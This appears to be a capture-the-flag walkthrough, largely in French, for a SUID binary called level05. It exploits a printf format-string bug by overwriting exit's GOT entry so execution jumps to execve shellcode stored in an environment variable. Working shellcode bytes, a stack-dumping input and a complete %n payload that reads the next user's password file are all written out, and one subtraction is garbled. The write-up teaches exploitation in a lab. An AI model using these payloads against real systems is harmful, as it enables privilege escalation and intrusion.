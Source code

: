 # Walkthrough - level05

The program has SUID permissions from the user `level06`, which will allow us to obtain their flag.

# Dissassembly

- Une fonction `fgets` qui lit 100 bytes sur la stdin
- Une boucle `for` qui converti les majuscules en minuscles
- Un `printf` qui affiche la chaine de caractères converti
- Un appel a la fonction `exit`

# Exploit

L'objectif est d'aller réecrite la GOT (Global offset table) de la fonction `exit` pour faire jump la fonction sur un shellcode qui se trouve dans les variables d'env.

Dans ce cas, nous ne pouvons pas utiliser un débordement avec la fonction `fgets`, car elle lit dans un buffer plus grand.

Cependant, `printf` n'a pas de format spécifique, le format utilisé est celui lu à partir de l'entrée standard.

Il existe un formatage spécial avec printf `%n` qui permet de stocker le nombre de caractères imprimés directement dans une adresse.

```c
#include <stdio.h>

int main(void) {
    int a = 0 ;
    printf("Hello world\n%n", &a) ;
    printf("a : %d\n", a) ;
    return 0 ;
}
``` 

```
Hello World
a : 12
```

Nous pouvons alors utiliser le formatage `%n` en passant l'adresse de `m` comme argument pour modifier sa valeur.

Les arguments des fonctions variadiques (comme `printf`) sont passés par la pile et non par les registres. Cela nous permet de vider notre pile en utilisant le format suivant :

``bash
./level05
%08x %08x %08x %08x %08x %08x %08x
```

Maintenant, nous voulons trouver le nombre d'arguments à retirer de la pile avant d'accéder au buffer (`s`).

``bash
./level05
aaaa %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x
```

```
aaaa 00000064 f7fcfac0 f7ec3af9 ffffd6ef ffffd6ee 00000000 ffffffff ffffd774 f7fdb000 61616161 38302520 30252078 25207838
```

Comme indiqué ci-dessus, nous accédons au tampon (`s`) après avoir pop la pile 9 fois (`0x61` correspond à `a` en ASCII).

Ensuite, il nous faut l'addresse qui est déreférencer par la GOT (`exit`), pour cela, on peut utiliser GDB.

```bash
gdb ./level05
(gdb) disas exit
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:	jmp    *0x80497e0
   0x08048376 <+6>:	push   $0x18
   0x0804837b <+11>:	jmp    0x8048330
End of assembler dump.
```

L'adresse à ré écrire est donc `0x80497e0`.

Maintenant, il nous faut l'adresse d'un shellcode, pour cela nous allons l'injecter dans les variables d'environement et obtenir son adresse avec le script suivant:


```bash
export SHELLCODE=$(python -c 'print("\x90" * 20 + "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80")')
```

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char *argv[]) {
    char *ptr;

    if(argc < 3) {
        printf("Usage: %s <environment variable> <target program name>\n", argv[0]);
        exit(0);
    }
    ptr = getenv(argv[1]); /* get env var location */
    ptr += (strlen(argv[0]) - strlen(argv[2]))*2; /* adjust for program name */
    printf("%s will be at %p\n", argv[1], ptr);
}
```
 
Il faut bien penser à compiler le programme avec le flag -m32 pour forcer une compilation 32bits.

```bash
gcc /tmp/env_variable.c -m32 -o /tmp/env_variable
/tmp/env_variable SHELLCODE ./level05

```

```bash
SHELLCODE will be at 0xffffd8d5
```

`0xffffd8d5 => 4294957269`

Comme l'adresse est tres très grande, nous allons l'écrire en utilisant deux `%n` en écrivant 2 bytes puis 2 autre bytes.


La premier valeur à stocker est `0xd8d5 = 55509` (comme nous sommes en little endian)

`55509 - 4 - 4 - 4 - 8 * 8 = 55433`

La deuxieme valeur à stocker est `0xffff = 65535`

`65535 - 55509 -  = 10026`


Avec le padding de printf, la commande entière est donc la suivante:

```bash
(python -c 'print("\xe0\x97\x04\x08" + "A" * 4 + "\xe2\x97\x04\x08" + "%08x" * 8 + "%055433x" + "%n" + "%010026x" + "%n")'; echo "cat /home/users/level06/.pass") | ./level05
```